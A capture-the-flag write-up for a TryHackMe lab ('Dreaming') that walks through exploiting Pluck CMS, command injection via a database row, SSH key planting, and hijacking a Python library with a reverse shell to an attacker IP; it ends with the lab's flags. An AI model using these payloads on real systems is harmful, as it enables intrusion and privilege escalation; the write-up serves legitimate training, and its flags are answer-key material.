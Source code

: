 # Dreaming
(Flags are at the end of the writeup)
### Recover the Kingdom!
Initial scan shows port 22 and 80 open: 

    nmap -p22,80 -sV -sC 10.10.88.80 -oN scan
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-15 11:22 CEST
    Nmap scan report for 10.10.88.80
    Host is up (0.044s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.8 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 76:26:67:a6:b0:08:0e:ed:34:58:5b:4e:77:45:92:57 (RSA)
    |   256 52:3a:ad:26:7f:6e:3f:23:f9:e4:ef:e8:5a:c8:42:5c (ECDSA)
    |_  256 71:df:6e:81:f0:80:79:71:a8:da:2e:1e:56:c4:de:bb (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Port 80 shows an empy web server, however after running gobuster, I found `/app`, which leads to a webpage that uses `pluck 4.7.13` as CMS. Googling online, I found that this version is vulnerable to authenticated RCE, and found the exploit code [here](https://github.com/0xAbbarhSF/CVE-2020-29607/blob/main/exploit.py).
I clicked on "admin", as showed in the picture below, and it led me to a login page: <br />
![image](https://github.com/user-attachments/assets/7876f7d0-ae68-4674-b691-e05dad7fd843)<br />
I quickly tried basic passwords like "admin" and "password", and I logged in using `password`. So now we can use the exploit that we found (the code is in `exploit.py` of this folder): <br />
![image](https://github.com/user-attachments/assets/699153ef-fab1-44c3-9347-0255335aa95a)<br />
And I now have a (really pretty) web shell: <br />
![image](https://github.com/user-attachments/assets/134acc85-9aba-4613-937b-286c09b4d589)<br />
After enumerating the machine, i found interesting files inside `/opt`. In particular: <br />
![image](https://github.com/user-attachments/assets/a7fce910-faf0-40a2-af07-edf37218746c)<br />
So I tried to log in as lucien using this password, with `su lucien`, `HeyLucien#@1999!`, and it worked. <br />
Inside lucien's home directory, I have access to his bash history and found something interesting:<br />
![image](https://github.com/user-attachments/assets/b68e5240-7cae-4680-ae8c-e62ad0f29c55)<br />
Also, running `sudo -l` as lucien reveals the following binary: <br />
![image](https://github.com/user-attachments/assets/c1e2c309-64f7-4f43-9f2e-9ae1b2a4bd15)<br />
I run it but it doesn't seem to be any useful:<br />
![image](https://github.com/user-attachments/assets/d17f877e-171d-4a9a-8999-ffa846874303)<br />
I also logged inside the myql database but I wasn't able to find anything useful.<br />
After a while I saw something interesting inside the code of `/opt/getDreams.py`.<br />
![image](https://github.com/user-attachments/assets/22b16128-77b9-4df9-8ced-4a629d55d439)<br />
 Basically it executes the command `echo dreamer + dream`, where `dreamer` and `dream` are the contents of the `library` database, the one on which we have access! So the idea is inject a command as a tuple of the table, so that it executes something like `echo dreamer +; /bin/bash`, something like that. Let's try.  <br />
 Move inside the `library` database, and run the following command `INSERT INTO dreams (dreamer, dream) VALUES ('; whoami #', 'Testing command injection');`. It worked!<br />
 ![image](https://github.com/user-attachments/assets/ed5e3baf-e98e-4d13-b471-e5a8edcf9817)<br />
Now let's insert a command to spawn a shell!<br />
![image](https://github.com/user-attachments/assets/781269c1-feb7-4e66-8973-d556b60706ee)<br />
It kinda worked, but the shell is not very interactive; the command works, but the shell doesn't give the answers back. So one way to make it interactive, is to use ssh:
<br />
On the attacker's machine: 

    ssh-keygen -t rsa -b 4096
On the target machine: 

    mkdir /home/death/.ssh
    echo "PUBKEY" > home/death/.ssh/authorized_keys

Finally, on the attacker's machine:<br />

    ssh -i keys death@10.10.1.99
And we have our interactive shell: <br />
![image](https://github.com/user-attachments/assets/e0153745-d255-49c2-ae7a-76ee2bf6a6bd)<br />
As death, we can now read his password from the `getDream.py` file:<br />
![image](https://github.com/user-attachments/assets/71a959b6-3513-435c-b01a-86ed8dc95d29)<br />
Now, if we look inside morpheus' home directory, we can see a .py file that we can read:<br />
![image](https://github.com/user-attachments/assets/4e69109e-7921-4d69-ade4-45267b49ca99)<br />
This file imports the shutil library, to which the death user has write access:<br />
![image](https://github.com/user-attachments/assets/f6038e64-7636-411d-b2c9-837bdf15ca66)<br />
We can then overwite this library with a reverse shell, and open a netcat listener, to check if this backup operation is actually a cronjob. Run `echo "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.14.90.188",8888));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")" > /usr/lib/python3.8/shutil.py` and then on the attacker's machine `nc -lnvp 8888`, wait a minute and get morpheus flag :) 





- What is the Lucien Flag? `THM{TH3_L1BR4R14N}`
- What is the Death Flag? `THM{1M_TH3R3_4_TH3M}`
- What is the Morpheus Flag? `THM{DR34MS_5H4P3_TH3_W0RLD}`



